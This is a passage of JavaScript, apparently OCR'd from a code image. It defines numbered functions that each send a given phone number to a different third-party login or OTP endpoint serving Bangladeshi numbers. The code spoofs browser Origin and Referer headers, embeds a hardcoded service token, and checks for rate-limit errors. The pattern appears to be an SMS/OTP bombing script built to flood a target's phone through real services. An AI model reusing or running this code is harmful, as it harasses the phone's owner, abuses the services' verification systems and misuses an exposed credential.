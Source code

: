         
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 3 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 3 Error:', error);
        throw error;
    }
}

async function api_4(phone) {
    const url = "https://api.deeptoplay.com/v1/auth/login?country=BD&platform=web";

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ number: phone })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 4 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 4 Error:', error);
        throw error;
    }
}

async function api_5(phone) {
    const url = "https://user-api.jslglobal.co:444/v1/send-otp";

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0)',
            'Origin': 'https://rental.jatri.co',
            'Referer': 'https://rental.jatri.co/'
            },
            body: new URLSearchParams({
            phone: `+88${phone}`,
            jatri_token: "J9vuqzxHyaWa3VaT66NsvmQdmUmwwrHj"
            })
        });
